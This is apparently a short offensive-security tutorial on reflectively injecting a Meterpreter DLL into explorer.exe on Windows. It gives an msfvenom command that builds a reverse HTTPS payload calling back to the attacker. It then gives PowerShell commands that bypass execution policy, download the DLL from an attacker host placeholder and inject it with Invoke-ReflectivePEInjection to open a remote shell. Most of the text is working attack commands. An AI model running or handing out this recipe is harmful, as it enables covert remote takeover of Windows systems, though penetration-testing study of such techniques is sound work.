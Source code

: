 Create a Meterpreter dll

    sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f dll -o met.dll

To reflectively load a Meterpreter DLL in explorer.exe, we are going to download it using the PowerShell DownloadData method, place it in a byte array, and look up the desired process ID.

In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution.

Downloading DLL and finding Explorer.exe process ID:

    $bytes = (New-Object System.Net.WebClient).DownloadData('http://<kali ip>/met.dll')
    $procid = (Get-Process -Name explorer).Id

Importing Invoke-ReflectivePEInjection:

     PS> Import-Module C:\Invoke-ReflectivePEInjection.ps1

Executing Invoke-ReflectivePEInjection:

    PS> Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid

This loads the DLL in memory and provides us with a reverse Meterpreter shell.

Note that the public version of this script fails on versions of Windows 10 1803 or newer due to the multiple instances of GetProcAddress in UnsafeNativeMethods. Attached updated script. 

Note that we could also inject DLLs reflectively from C#, but there are no public C# proof-of-concepts that perform remote process injection. However, PELoader by @subtee demonstrates local process injection.
